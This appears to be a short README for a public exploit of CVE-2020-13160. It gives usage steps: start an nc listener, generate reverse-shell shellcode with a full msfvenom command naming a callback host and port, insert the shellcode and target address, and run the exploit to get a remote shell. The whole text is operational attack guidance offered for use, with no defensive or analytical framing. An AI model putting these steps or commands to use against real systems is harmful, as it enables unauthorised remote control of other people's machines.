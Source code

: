 ##Usage:
Python:

Step 1: use nc to listen local port（any one）

Step 2: use msfvenom to generate shellocode,eg:

`msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.174.131 LPORT=6666 -b "\x00\x25\x26" -f python -v shellcode`

Step 3:Replease the shellcode and Target IP Address to you test

Step 4: run the exp,python CVE-2020-13160

Step 5: After a few time later a reverse shell will reback


MSF:
you can see more detail from https://github.com/rapid7/metasploit-framework/commit/08c1402be9bb350d02e00896d5367fd85708e390
